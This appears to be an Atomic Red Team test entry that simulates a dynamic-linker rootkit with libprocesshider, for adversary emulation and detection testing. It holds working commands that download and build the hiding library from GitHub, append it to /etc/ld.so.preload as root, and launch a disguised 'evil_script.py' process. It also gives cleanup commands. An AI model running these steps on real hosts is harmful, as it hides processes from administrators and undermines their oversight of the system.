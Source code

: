 


<br/>
<br/>

## Atomic Test #3 - dynamic-linker based rootkit (libprocesshider)
Uses libprocesshider to simulate rootkit behavior by hiding a specific process name via ld.so.preload (see also T1574.006).

**Supported Platforms:** Linux


**auto_generated_guid:** 1338bf0c-fd0c-48c0-9e65-329f18e2c0d3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| repo | Url of the github repo zip | string | https://github.com/gianlucaborello/libprocesshider/|
| rev | Revision of the github repo zip | string | 25e0587d6bf2137f8792dc83242b6b0e5a72b415|
| library_path | Full path of the library to add to ld.so.preload | string | /usr/local/lib/libprocesshider.so|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
echo #{library_path} | tee -a /etc/ld.so.preload
/usr/local/bin/evil_script.py localhost -c 10 >/dev/null & pgrep -l evil_script.py || echo "process hidden"
```

#### Cleanup Commands:
```sh
sed -i "\:^#{library_path}:d" /etc/ld.so.preload
rm -rf #{library_path} /usr/local/bin/evil_script.py /tmp/atomic
```



#### Dependencies:  Run with `bash`!
##### Description: The preload library must exist on disk at specified location (#{library_path})
##### Check Prereq Commands:
```bash
if [ -f #{library_path} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
mkdir -p /tmp/atomic && cd /tmp/atomic
curl -sLO #{repo}/archive/#{rev}.zip && unzip #{rev}.zip && cd libprocesshider-#{rev}
make
cp libprocesshider.so #{library_path}
cp /usr/bin/ping /usr/local/bin/evil_script.py
```
